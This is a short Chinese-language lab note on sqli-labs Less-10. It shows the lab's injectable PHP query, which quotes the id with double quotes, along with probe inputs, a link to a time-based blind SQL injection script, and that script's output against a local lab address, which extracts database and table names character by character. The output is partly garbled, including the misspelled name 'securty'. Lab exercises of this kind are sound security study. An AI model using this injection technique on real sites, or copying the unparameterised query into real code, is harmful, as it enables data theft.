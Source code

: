 ```yaml
---
title: less10
url: https://www.yuque.com/u29002979/ep2zrx/uzyohqth1n60nyp0
---
```


```bash
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

双引号闭合

`?id=1"`显示You are in...........
`?id=1"`也显示You are in...........

与Less9的区别在于闭合方式为 双引号，
同样是时间盲注

<a name="WFWr1"></a>

# 使用python时间盲注脚本

[time-blind.py](https://www.yuque.com/attachments/yuque/0/2022/py/29430497/1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fpy%2F29430497%2F1668822269804-e683f9ad-2d5c-4eda-bfe6-cdc0578a20b1.py%22%2C%22name%22%3A%22time-blind.py%22%2C%22size%22%3A3709%2C%22type%22%3A%22text%2Fx-python%22%2C%22ext%22%3A%22py%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22uccc0b203-7879-4264-955e-69651a58aa2%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22ua027682d%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)

> url = 'http://192.168.31.193/Less-10/?id=1"'

```bash
┌──(root㉿guoyx)-[/home/kali/sql-python]
└─# python3 time-blind.py 
数据库名为->s
数据库名为->se
数据库名为->sec
数据库名为->secu
数据库名为->secur
数据库名为->secur
数据库名为->securt
数据库名为->securty
第一个表为->e
第一个表为->em
第一个表为->ema
第一个表为->emai
第二个表为->f
第二个表为->fe
第三个表为->s
字段二为->H
字段二为->H*
```

数据库名为securty
